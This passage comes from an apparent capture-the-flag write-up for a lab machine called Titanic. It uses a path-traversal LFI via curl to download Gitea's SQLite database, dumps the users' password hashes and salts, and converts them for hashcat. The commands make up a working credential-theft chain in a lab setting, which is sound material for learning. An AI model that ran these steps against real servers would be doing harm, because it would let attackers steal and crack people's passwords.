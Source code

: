  Visiting `http://dev.titanic.htb` on our Attack Machine opens a Gitea login page. You can register a new user to explore. In Gitea, there are two repositories of interest:

```
docker-config
flask-app
```

 Reviewing **flask-app** confirms the code flaw that led to LFI, but no additional credentials.  
 Reviewing **docker-config** reveals Gitea is running in a Docker container and stores data in `/home/developer/gitea/data`.
### Extracting Gitea Database

 By referencing Gitea’s documentation, we learn that all user data is stored in a `gitea.db` SQLite file, and the file is in turn stored in `/data/gitea` inside the docker image. The final path is:
   
   - `/home/developer/gitea/data/gitea/gitea.db`

Then using the LFI exploit, we can save this file locally: 

```bash
❯ curl -s "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db" -o gitea.db
```
### Gitea Database Enumeration

Open `gitea.db` in SQLite:

```bash
sqlite3 gitea.db  
sqlite> .tables  
sqlite> SELECT lower_name, passwd, salt FROM user;
```

```bash
administrator|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|2d149e5fbd1b20cf31db3e3c6a28fc9b developer|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|8bf3e3452b78544f8bee9400d6936d34 test|6f4dd1c617813da3dcc9ee0c7b0aeb7b3135cc85943e92a0e54102486cff31414ded2eaeac5312914a4f333ae1f2e2d43110|3f68d4b0d5183c5d6d811d55a367dd63
```

This hash format aint good to be cracked by `hashcat`.

Retreiving Hash And Cracking the Developer’s Password, We convert it manually or use [gitea2hashcat.py](https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py) script. And also watch this **Ippsec** video for more [Detail](https://www.youtube.com/watch?v=aG_N2ZiCfxk&t=2419s).


```bash
❯ python3 gitea2hashcat.py -h gitea.db
usage: gitea2hashcat.py [-h] [hashes ...]

Convert Gitea SALT+HASH strings to a hashcat-compatible format.

positional arguments:
  hashes      SALT+HASH strings to convert

options:
  -h, --help  show this help message and exit

Example:
    gitea2hashcat.py <salt1>:<hash1> <hash2>|<salt2> ... or pipe input from stdin.
        
    You can also dump output straight from sqlite into this script:
        sqlite3 gitea.db 'select salt,passwd from user;' | gitea2hashcat.py

❯ sqlite3 gitea.db 'select salt,passwd from user;' | python3 gitea2hashcat.py
[+] Run the output hashes through hashcat mode 10900 (PBKDF2-HMAC-SHA256)

```